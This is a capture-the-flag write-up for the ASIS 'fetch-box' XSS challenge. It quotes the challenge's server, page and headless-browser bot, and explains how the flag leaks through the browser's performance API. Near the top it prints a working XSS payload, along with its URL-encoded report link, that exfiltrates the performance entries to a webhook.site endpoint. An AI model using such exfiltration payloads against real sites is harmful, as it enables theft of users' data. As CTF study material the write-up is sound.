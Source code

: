 # fetch-box
http://fetch-box.asisctf.com:3000/ #page xss  
http://fetch-box.asisctf.com:1337/ #admin bot  
wu:  
window.location.assign("https://webhook.site/3c763848-b83f-415d-b837-807111679f92?a=" + btoa(JSON.stringify(window.performance.getEntries())));  
report: http://web:3000/?xss=window.location.assign%28%22https%3A%2F%2Fwebhook.site%2F3c763848-b83f-415d-b837-807111679f92%3Fa%3D%22%20%2B%20btoa%28JSON.stringify%28window.performance.getEntries%28%29%29%29%29%3B  
![image](https://github.com/user-attachments/assets/4eba27b3-f6b3-46da-9360-e08af0322588)
## so how is work
look into source:
![image](https://github.com/user-attachments/assets/5bdcbca4-0f80-4a54-9995-939eae804117)

we have 2 folder  
web: port 3000  
bot: port 1337
## web
index.js:  
```
import express from "express";
import fs from "node:fs";

const html = fs.readFileSync("index.html", { encoding: "utf8" });

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "base-uri 'none'; frame-ancestors 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .get("/ping", (req, res) => res.type("text").send("pong"))
  .listen(3000);
```

Looks meaningless, right?. CSP to protect what?

but when we look at index.html:

<!DOCTYPE html>
<body>
  <h1>XSS Playground</h1>
  <script>
    (() => {
      const flag = localStorage.getItem("flag") ?? "🚩";
      localStorage.removeItem("flag");

      const fetch = Object.freeze(window.fetch);
      const resource = `/ping?${new URLSearchParams({ flag })}`;
      const options = Object.create(null);

      const fun = () => fetch(resource, options);
      setInterval(fun, 500);
    })();

    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";
    setTimeout(xss, 800);
  </script>
</body>

ye that makes sense  
summary:  
take flag from localStorage and removte it, next freezing fetch prevents us from overwriting it. final fetch to /ping with flag. Below code use to xss.
## bot
bot.js:
```
import puppeteer from "puppeteer";

const FLAG = process.env.FLAG ?? console.log("No flag") ?? process.exit(1);

const APP_HOST = "web";
const APP_PORT = "3000";
export const APP_URL = `http://${APP_HOST}:${APP_PORT}`;

// Flag format
if (!/^ASIS{\w+}$/.test(FLAG)) {
  console.log("Bad flag");
  process.exit(1);
}

const sleep = async (ms) => new Promise((resolve) => setTimeout(resolve, ms));

export const visit = async (url) => {
  console.log(`start: ${url}`);

  const browser = await puppeteer.launch({
    headless: "new",
    executablePath: "/usr/bin/chromium",
    args: [
      "--no-sandbox",
      "--disable-dev-shm-usage",
      "--disable-gpu",
      '--js-flags="--noexpose_wasm"',
    ],
  });

  const context = await browser.createBrowserContext();

  try {
    const page1 = await context.newPage();

    await page1.goto(APP_URL + "/ping", { timeout: 3_000 });
    await page1.evaluate((flag) => {
      localStorage.setItem("flag", flag);
    }, FLAG);
    await sleep(1_000);
    await page1.close();

    const page2 = await context.newPage();
    await page2.goto(url, { timeout: 5_000 });
    await sleep(10_000);
    await page2.close();
  } catch (e) {
    console.error(e);
  }

  await context.close();
  await browser.close();

  console.log(`end: ${url}`);
};
```
summary:  
visit web:3000/ping and add flag to localStorage, next visit our url
obstruction:
because xss code is outside the anonymous function so we cant take flag varriable.  
web:3000 has csp so we cant use xss like iframe and base to steal flag
attack vector:
we can use performance to get flag   
https://developer.mozilla.org/en-US/docs/Web/API/Performance  
![image](https://github.com/user-attachments/assets/d47f53fe-d97d-48f1-a904-47e706a7f44e)


